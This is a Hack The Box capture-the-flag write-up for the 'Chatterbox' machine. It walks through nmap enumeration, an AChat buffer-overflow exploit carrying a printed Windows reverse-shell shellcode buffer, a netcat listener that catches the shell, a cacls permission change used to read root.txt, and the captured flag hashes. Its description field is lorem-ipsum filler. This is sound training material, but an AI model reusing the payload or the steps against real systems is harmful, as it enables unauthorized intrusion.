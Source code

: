 ```yaml
---
title: chatterbox - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-03-27
image: images/chatterbox_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```



```
   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. [root:/git/htb/chatterbox]# nmap -Pn -n -sCV 10.10.10.74 --open                                                                   (master✱)
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-26 10:20 CET
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 201.69 seconds

Normal nmap scan finds nothing. Trying UDP returns the same, nothing.
[root:/git/htb/chatterbox]# nmap -sU -sV --version-intensity 0 -F -n 10.10.10.74                                                  (master✱)
  Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-26 10:24 CET
  Nmap scan report for 10.10.10.74
  Host is up (0.035s latency).
  All 100 scanned ports on 10.10.10.74 are open|filtered

Expand the tcp scan by looking on all ports.
[root:/git/htb/chatterbox]# nmap -p- -T5 10.10.10.74                                                                              (master✱)
  Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-26 10:33 CET
  Nmap scan report for chatterbox.htb (10.10.10.74)
  Host is up (0.034s latency).
  Not shown: 65533 filtered ports
  PORT     STATE SERVICE
  9255/tcp open  mon
  9256/tcp open  unknown

Version and script scan to see if we can figure out anything more about the services:
[root:/git/htb/chatterbox]# nmap -sCV -p9255,9256 10.10.10.74                                                                     (master✱)
  Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-26 10:38 CET
  Nmap scan report for chatterbox.htb (10.10.10.74)
  Host is up (0.034s latency).

  PORT     STATE SERVICE VERSION
  9255/tcp open  http    AChat chat system httpd
  |_http-server-header: AChat
  |_http-title: Site doesn't have a title.
  9256/tcp open  achat   AChat chat system

[root:/git/htb/chatterbox]# curl 10.10.10.74:9255                                                                                 (master✱)
[root:/git/htb/chatterbox]# curl 10.10.10.74:9256                                                                                 (master✱)
  curl: (1) Received HTTP/0.9 when not allowed


2. Google for 'AChat enumerate port 9255 9256' and I come across 'achat reverse tcp exploit'. Downloading the files,
modify the payload-file to create a 'windows/shell_reverse_tcp' payload rather then meterpreter (no go in OSCP).

Generate the payload, edit the exploit-file with the new buf-data, and lastly change the server address (in the script)
to our victim.

[root:/git/htb/chatterbox]# ./AChat_Payload.sh                                                                                    (master✱)
  RHOST: 10.10.10.74
  LHOST: 10.10.14.5
  LPORT: 4488
  Found 1 compatible encoders
  Attempting to encode payload with 1 iterations of x86/unicode_mixed
  x86/unicode_mixed succeeded with size 774 (iteration=0)
  x86/unicode_mixed chosen with final size 774
  Payload size: 774 bytes
  Final size of python file: 3767 bytes
  buf =  b""
  buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
  buf += b"\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
  buf += b"\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
  buf += b"\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
  buf += b"\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
  buf += b"\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
  buf += b"\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
  buf += b"\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
  buf += b"\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
  buf += b"\x47\x42\x39\x75\x34\x4a\x42\x49\x6c\x48\x68\x35\x32"
  buf += b"\x39\x70\x4b\x50\x6b\x50\x53\x30\x31\x79\x6b\x35\x50"
  buf += b"\x31\x55\x70\x4f\x74\x62\x6b\x42\x30\x6e\x50\x42\x6b"
  buf += b"\x6e\x72\x6a\x6c\x44\x4b\x6e\x72\x4e\x34\x34\x4b\x52"
  buf += b"\x52\x4d\x58\x7a\x6f\x74\x77\x4f\x5a\x4d\x56\x6d\x61"
  buf += b"\x59\x6f\x74\x6c\x6f\x4c\x70\x61\x43\x4c\x6c\x42\x4c"
  buf += b"\x6c\x6f\x30\x35\x71\x78\x4f\x7a\x6d\x4d\x31\x56\x67"
  buf += b"\x57\x72\x4c\x32\x52\x32\x51\x47\x62\x6b\x62\x32\x4a"
  buf += b"\x70\x62\x6b\x4e\x6a\x4d\x6c\x44\x4b\x30\x4c\x4e\x31"
  buf += b"\x42\x58\x38\x63\x6d\x78\x59\x71\x47\x61\x70\x51\x44"
  buf += b"\x4b\x52\x39\x4f\x30\x6d\x31\x78\x53\x64\x4b\x51\x39"
  buf += b"\x7a\x78\x69\x53\x6e\x5a\x6d\x79\x62\x6b\x4d\x64\x64"
  buf += b"\x4b\x6d\x31\x49\x46\x50\x31\x59\x6f\x54\x6c\x76\x61"
  buf += b"\x36\x6f\x6c\x4d\x59\x71\x49\x37\x6e\x58\x39\x50\x43"
  buf += b"\x45\x4c\x36\x6c\x43\x33\x4d\x6c\x38\x6f\x4b\x73\x4d"
  buf += b"\x6b\x74\x64\x35\x6b\x34\x72\x38\x44\x4b\x52\x38\x4d"
  buf += b"\x54\x7a\x61\x38\x53\x50\x66\x72\x6b\x4c\x4c\x70\x4b"
  buf += b"\x34\x4b\x61\x48\x4b\x6c\x39\x71\x68\x53\x54\x4b\x6d"
  buf += b"\x34\x32\x6b\x79\x71\x78\x50\x61\x79\x4f\x54\x6f\x34"
  buf += b"\x6d\x54\x61\x4b\x6f\x6b\x63\x31\x42\x39\x50\x5a\x52"
  buf += b"\x31\x49\x6f\x69\x50\x4f\x6f\x31\x4f\x51\x4a\x64\x4b"
  buf += b"\x6a\x72\x6a\x4b\x32\x6d\x6f\x6d\x72\x48\x6c\x73\x6d"
  buf += b"\x62\x4b\x50\x6d\x30\x73\x38\x53\x47\x70\x73\x70\x32"
  buf += b"\x31\x4f\x50\x54\x72\x48\x6e\x6c\x50\x77\x6e\x46\x69"
  buf += b"\x77\x4b\x4f\x67\x65\x57\x48\x64\x50\x6a\x61\x69\x70"
  buf += b"\x59\x70\x6b\x79\x66\x64\x4f\x64\x6e\x70\x52\x48\x4d"
  buf += b"\x59\x75\x30\x62\x4b\x69\x70\x59\x6f\x36\x75\x42\x30"
  buf += b"\x32\x30\x72\x30\x6e\x70\x6d\x70\x4e\x70\x4d\x70\x30"
  buf += b"\x50\x52\x48\x7a\x4a\x4a\x6f\x57\x6f\x67\x70\x59\x6f"
  buf += b"\x47\x65\x43\x67\x70\x6a\x4a\x65\x71\x58\x4a\x6a\x69"
  buf += b"\x7a\x6a\x6e\x59\x75\x32\x48\x6b\x52\x6b\x50\x6b\x61"
  buf += b"\x33\x58\x34\x49\x78\x66\x70\x6a\x6e\x30\x42\x36\x51"
  buf += b"\x47\x6f\x78\x35\x49\x54\x65\x30\x74\x63\x31\x79\x6f"
  buf += b"\x36\x75\x62\x65\x69\x30\x73\x44\x7a\x6c\x79\x6f\x70"
  buf += b"\x4e\x6a\x68\x44\x35\x5a\x4c\x30\x68\x38\x70\x57\x45"
  buf += b"\x34\x62\x71\x46\x4b\x4f\x48\x55\x61\x58\x33\x33\x52"
  buf += b"\x4d\x4f\x74\x6b\x50\x32\x69\x69\x53\x71\x47\x50\x57"
  buf += b"\x71\x47\x6c\x71\x79\x66\x4f\x7a\x4b\x62\x32\x39\x31"
  buf += b"\x46\x47\x72\x4b\x4d\x62\x46\x48\x47\x4d\x74\x4d\x54"
  buf += b"\x6f\x4c\x69\x71\x6b\x51\x72\x6d\x4e\x64\x6c\x64\x6c"
  buf += b"\x50\x67\x56\x49\x70\x6d\x74\x42\x34\x4e\x70\x6f\x66"
  buf += b"\x71\x46\x4f\x66\x61\x36\x52\x36\x6e\x6e\x62\x36\x62"
  buf += b"\x36\x6e\x73\x4e\x76\x53\x38\x30\x79\x58\x4c\x6d\x6f"
  buf += b"\x74\x46\x4b\x4f\x68\x55\x62\x69\x37\x70\x6e\x6e\x62"
  buf += b"\x36\x6f\x56\x4b\x4f\x4c\x70\x61\x58\x4d\x38\x54\x47"
  buf += b"\x6b\x6d\x33\x30\x6b\x4f\x66\x75\x67\x4b\x49\x50\x4d"
  buf += b"\x4d\x4d\x5a\x59\x7a\x61\x58\x76\x46\x34\x55\x77\x4d"
  buf += b"\x53\x6d\x39\x6f\x36\x75\x6f\x4c\x5a\x66\x51\x6c\x5a"
  buf += b"\x6a\x71\x70\x6b\x4b\x79\x50\x54\x35\x5a\x65\x55\x6b"
  buf += b"\x31\x37\x6b\x63\x31\x62\x72\x4f\x71\x5a\x79\x70\x51"

[root:/git/htb/chatterbox]# python AChat_Exploit.py                                                                               (master✱)
  [+] BUFFER OVERFLOW PAYLOAD RELEASED -- CHECK YOUR HANDLER

[root:/git/htb/chatterbox]# rlwrap nc -lvnp 4488                                                                                  (master✱)
  listening on [any] 4488 ...
  connect to [10.10.14.5] from (UNKNOWN) [10.10.10.74] 49161
  Microsoft Windows [Version 6.1.7601]
  Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

  C:\Windows\system32> whoami
    chatterbox\alfred


3. Grab user.txt

C:\Users\Alfred\Desktop> type user.txt
  02c94ad2f3a9d10f7f327b895249a2f8

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Once we have a reverse shell as Alfred, we notice that we got read access to the \Users\Administrator directory - usually
the users don't have permission to enter this folder.

C:\Users\Administrator\Desktop> type root.txt
Access is denied.

Unfortunately we can't just print root as of yet. But maybe the privileges of the Admin dir is a good place to start.

C:\Users\Administrator\Desktop> dir root.txt /q
  03/26/2021  07:51 AM                34 CHATTERBOX\Alfred      root.txt


C:\Users\Administrator\Desktop> cacls root.txt /G Alfred:R
  Are you sure (Y/N)? y
  processed file: C:\Users\Administrator\Desktop\root.txt

C:\Users\Administrator\Desktop> type root.txt
  efd540d3337ebc9d2682bec22ab89f45


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

AChat Reverse TCP Exploit:
  https://github.com/EDB4YLI55/achat_reverse_tcp_exploit

File ownership Win7:
  https://superuser.com/questions/691578/how-to-display-change-the-owner-of-a-file-on-windows-7

```